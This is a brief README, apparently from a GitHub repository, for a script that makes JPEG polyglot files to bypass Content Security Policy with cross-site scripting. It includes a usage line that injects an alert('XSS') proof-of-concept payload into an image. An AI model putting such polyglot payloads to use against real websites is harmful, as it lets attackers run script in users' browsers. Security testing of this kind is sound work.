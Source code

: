 # XSS_JPEG_polygot_CSP_Bypass
csp bypass using polygot 

![readme](https://user-images.githubusercontent.com/29424640/162610833-9b27bca2-80f9-4ff2-8f91-fef45bdb263f.png)

## Usage:
```bash
Usage: exploit_payload_gen.py test.jpg '*/=alert("XSS");/*' injected.jpg
```
